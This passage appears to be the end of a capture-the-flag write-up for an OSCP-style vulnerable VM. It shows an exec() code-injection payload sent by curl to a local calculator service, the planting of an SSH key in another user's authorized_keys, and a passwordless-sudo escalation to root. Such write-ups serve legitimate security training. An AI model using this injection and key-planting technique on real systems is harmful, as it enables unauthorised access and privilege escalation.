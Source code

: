 As it turned out, we don't need to "get `king` to run this file" - it's already running. A simple `netstat -antp` revealed that port 8888 is already listening; it's just not accessible to the outside world. That's not a problem for us, though, since we already have SSH access to the server. I confirmed it was working from the `rails` account with a simple curl command:

`curl http://127.0.0.1:8888/calc?sum=5-5`

This returned 0, as we would expect it to. All that is left is to craft an exploit. For whatever reason, I found that it didn't like any spaces in its input, but this was easy enough to circumvent:

```
$ echo "touch /tmp/test.txt" > /tmp/king.sh
$ chmod +x /tmp/king.sh
$ curl "http://127.0.0.1:8888/calc?sum=exec('/tmp/king.sh')"
```

Checking the contents of `/tmp` confirmed that my code had executed. I was able to use `king.sh` to get my public key copied into `/home/king/.ssh/authorized_keys`. This allowed me to login as `king`. Since `king` has passwordless sudo access, this directly enabled me to escalate to root.

Here is the contents of the flag file, for proof:

>c0db34ce8adaa7c07d064cc1697e3d7cb8aec9d5a0c4809d5a0c4809b6be23044d15379c5

## Afterword

The style of this vulnerable VM is very similar to many of the medium-difficulty labs I encountered while doing the OSCP. Although it followed a somewhat predictable pattern and some of the difficult was down to, for example, an obscure naming convention in the password reset functionality, I nonetheless found that it was entertaining and engaging. On a technical level, the VM was also pretty stable - despite mucking around quite a bit with blog and user creation while experimenting, I didn't have any trouble with the web application or the VM itself. 

All in all, the challenge took me around 4 hours to complete.
